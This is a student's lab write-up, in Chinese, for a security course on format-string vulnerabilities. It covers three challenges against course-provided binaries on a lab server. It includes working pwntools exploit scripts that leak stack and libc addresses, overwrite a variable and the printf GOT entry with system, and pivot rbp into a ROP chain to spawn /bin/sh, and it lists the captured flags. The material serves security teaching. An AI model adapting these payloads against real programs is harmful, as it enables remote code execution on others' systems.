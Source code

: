 ## lab02-格式化字符串漏洞

### Task1

> 请阅读 fsb1.c 的内容，在本地和远程服务上完成攻击（要求getshell）。远程服务暴露在：
ip： 8.154.20.109 ，port： 10300

![alt text](img/3220103784-林子昕-lab02/image-1.png)

```shell
❯ echo "AAAAAAAA%p.%p.%p.%p.%p.%p.%p.%p" | ./fsb1
address of x is: 0x7ffd05b7a4f8
AAAAAAAA0x7ffd05b7a500.0x80.0x7f5cda7a17e2.0x20.0x7ffd05b7825c.(nil).0xbeaf.0x4141414141414141
```

得到 `%7$p` 为 0xbeaf，根据 `fsb1.c` ，只需要修改 x 的值使它不等于 0xbeaf 即可。

构造 payload：

```text
测试时的布局：
[1] [2] [3] [4] [5] [6] [7:0xbeaf] [8:AAAAAAAA]

payload的布局：

格式化字符串部分 │ 填充部分     │ 地址部分
"%1c%9$hn\x00"  │ \x00\x00... │ x_addr
```

代码实现：

```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

DEBUG = 1
REMOTE = 1

if REMOTE:
    p = remote("8.154.20.109", 10300)
    p.recvuntil(b"Please input your StudentID:\n")
    p.sendline(b"3220103784")
else:
    p = process("./fsb1")
    
p.recvuntil(b'address of x is: ')
x_addr = eval(p.recvline().strip().decode())

log.success("get address successfully: x_addr = %x", x_addr)

# write x_addr to the 9th parameter of printf
payload = ""
payload += "%1c"
payload += "%9$hn" # 9 is the index of x_addr in the stack
payload = payload.encode().ljust(8, b'0') # padding
payload += p64(x_addr) # the address of x

p.sendline(payload)
p.interactive()
```

本地测试通过：

![alt text](img/3220103784-林子昕-lab02/image-2.png)

远程测试通过，得到 flag：` ssec2024{f0rmat_0v3rr1d3_succ3ss|162130ce}`

![alt text](img/3220103784-林子昕-lab02/image-3.png)

### Task2

> 请阅读 fsb2.c 的内容，在本地和远程服务上完成攻击（要求getshell）。远程服务暴露在：`ip： 8.154.20.109 ，port： 10301`
攻击步骤：
通过泄露 libc 函数来确定 libc 加载的虚拟地址，并通过计算拿到 system 的地址；
覆盖 printf 的 GOT 表为 system；
调用 print 以触发 system 从而 getshell。
你可以通过学习 pwntools中fmtstr 库的相关API来简化攻击流程。

攻击思路：

1. 泄露printf的地址：
构造一个格式化字符串，并在之后紧跟着 printf 的 GOT 地址来泄露 printf 函数在内存中的实际地址。
利用泄露出的地址，推算libc基地址。
2. 计算system函数的地址：
通过泄露出的 printf 地址减去 printf 在 libc 中的偏移量，即可获得 libc 的基地址。
结合 system 在 lib 中的偏移量，可以计算出 system 的实际地址。构造格式化字符串，覆盖 GOT 表。
3. 触发system函数：
覆盖完成后，通过再次调用 printf，输入 `"/bin/sh"`，使得程序调用 `system("/bin/sh")`，从而获取 shell。

```shell
❯ echo "AAAAAAAA%p.%p.%p.%p.%p.%p.%p.%p" | ./fsb2
AAAAAAAA0x7ffc9b057900.0x100.0x7fa107c667e2.0x7fa107d6df10.0x7fa107d8c040.0x4141414141414141.0x70252e70252e7025.0x252e70252e70252e
```

得到 offset 为 6.

1. 泄露printf的地址：

```python
libc = ELF("./libc.so")
elf = ELF("./fsb2")
printf_got = elf.got["printf"]
offset = 6

payload = ""
payload += "%7$s"
payload = payload.encode().ljust(8, b'0') # padding
payload += p64(printf_got) # the address of printf
```
2. 计算system函数的地址, 构造格式化字符串，覆盖GOT表：

```python
printf_addr = u64(p.recv(6).ljust(8, b"\x00"))
system_addr = printf_addr - (libc.symbols["printf"] - libc.symbols["system"])
if DEBUG:
    log.info(f"printf_addr = {hex(printf_addr)}")
    log.info(f"system_addr = {hex(system_addr)}")
payload = fmtstr_payload(offset, {printf_got: system_addr}, write_size="short")
info(f"payload = {payload}")
```

3. 触发system函数：

```python
p.send(payload)
p.send(b"/bin/sh\0")
p.interactive()
```

本地测试通过：

![alt text](img/3220103784-林子昕-lab02/image-5.png)

远程测试通过，得到  flag: `ssec2024{g0t_0v3rrid3_2_sh3ll|66f9f180}`

![alt text](img/3220103784-林子昕-lab02/image-4.png)

### bonus

> 请阅读 bonus.c 的内容，在本地和远程服务上完成攻击（要求getshell）。远程服务暴露在：`ip： 8.154.20.109 ，port： 10302`
提示：
本题目中字符串不再位于栈上，无法利用之前的方法覆盖任意地址的内存。但栈上一些敏感内存仍然可以被覆盖，比如函数执行 push rbp 保存的rbp寄存器。

攻击思路：

1. 利用格式化字符串漏洞重写 rbp 地址。
2. 通过 ROP 构造跳转链，最终调用 `system("/bin/sh")` 获取 shell。

代码实现：

1. 同上述解法，得到 offset 为 8，从 elf 文件中获取相关地址，使用 find_gadget 找到 ret 和 pop rdi 的地址。

```python
elf = ELF("./bonus")
libc = ELF("./libc.so")
system = elf.symbols["system"]
buffer = elf.symbols["buffer"]
offset = 8
rop = ROP(elf)
ret =  rop.find_gadget(['ret'])[0]
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
```

2. 构造 payload 的前半部分，覆盖 rbp 为 buffer 的地址。

```python
p.sendline("dummy input")

payload = ""
length = 0x40
payload += "%{}c%{}$lln".format(buffer + length, offset)
payload = payload.encode().ljust(length, b"\x00")
payload += b"Anya" * 2
```

3. 构造 payload 的后半部分，使用 ROP 调用 system("/bin/sh")。

```python
payload += p64(pop_rdi)
payload += p64(buffer + 2 * length)
rop.raw(system)
payload += p64(ret)
payload += rop.chain()
payload = payload.ljust(2 * length, b"\x00")
payload += b"/bin/sh\x00"
```

4. 发送 payload，获取 shell。

```python
p.sendline(payload)
p.interactive()
```

本地测试通过：

![alt text](img/3220103784-林子昕-lab02/image-6.png)

远程测试通过，得到 flag: `ssec2024{Format_String_Exploits_Are_Powerful|d40ea8a2}`

![alt text](img/3220103784-林子昕-lab02/image-7.png)
